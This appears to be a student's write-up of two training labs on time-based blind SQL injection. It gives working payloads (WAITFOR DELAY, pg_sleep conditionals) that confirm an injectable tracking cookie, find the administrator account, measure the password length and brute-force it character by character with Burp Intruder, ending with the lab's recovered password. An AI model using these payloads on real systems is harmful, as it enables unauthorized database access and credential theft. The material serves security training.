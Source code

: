 What if you Trigger a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

- SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response
- This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
The first of these inputs will not trigger. The second input will trigger a delay of 10 seconds

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Steps to solve Lab-1
### Desc - Blind SQL injection with time delays

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)

2. Now, we are going to perform a query of 10 seconds of delay:
   query --> 
   ```sql
   ' || pg_sleep(10)--
```
[[SQL injection cheat sheet]]
Below performing on burp:
![[SQL_injection_with_time_delays1.png]]

## Steps to solve Lab-2
### Desc - Blind SQL injection with time delays and information retrieval

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
query -->
```sql
' || pg_sleep(10)--
```

Below performing on burp:
![[blind_SQL_injection_with_time_delay_info_retrieval1.png]]

2. Let's confirm that the administrator user exist and users table exist:
   query --> 
   ```sql
   '|| (SELECT CASE WHEN (username='administrator') then pg_sleep(10) else pg_sleep(-1) END from users)--
```

Below performing on burp:
![[blind_SQL_injection_with_time_delay_info_retrieval2.png]]
**Result** - It takes 10 second to response, it means, **administrator** user exist as well as users table exist.

3. Let's find the length of password:
query --> 
```sql
' || (SELECT CASE WHEN (username='administrator' and LENGTH(password)>21) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
```
Now, we are sending this query to **intruder** to find the length of password.

Below performing on burp:
1. Sending the **Repeater** data to **intruder**:
![[blind_SQL_injection_with_time_delay_info_retrieval3.png]]

2. Setting up positions on intruder:
![[blind_SQL_injection_with_time_delay_info_retrieval4.png]]

3. Setting up **Payloads** in intruder:
![[blind_SQL_injection_with_time_delay_info_retrieval5.png]]

4. Setting up **Resource Pool** in intruder:
![[blind_SQL_injection_with_time_delay_info_retrieval6.png]]

5. Start the attack to find the length of password:
![[blind_SQL_injection_with_time_delay_info_retrieval7.png]]
**Result** - The length of password is 20. 

4. Let's find all of the characters of password of **administrator**:
query --> 
```sql
' || (SELECT CASE WHEN (username='administrator' and SUBSTRING(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
```
Now, we are going to brute-force the above by sending the query to **intruder**.

Below performing on burp:
1. Setting data from **Repeater** to **intruder**:
![[blind_SQL_injection_with_time_delay_info_retrieval8.png]]

2. Setting up positions in the **intruder**
![[blind_SQL_injection_with_time_delay_info_retrieval9.png]]

3. Setting up the first **Payload**:
![[blind_SQL_injection_with_time_delay_info_retrieval10.png]]

4. Setting up the second **Payload**:
   ![[blind_SQL_injection_with_time_delay_info_retrieval11.png]]

5. Setting up the **Resource pool**:
![[blind_SQL_injection_with_time_delay_info_retrieval12.png]]

6. After performing the attack the password is:
![[blind_SQL_injection_with_time_delay_info_retrieval13.png]]
**Result** - The password of administrator is "9hhidf3k2lilbf8nnsnq" and the lab is solved.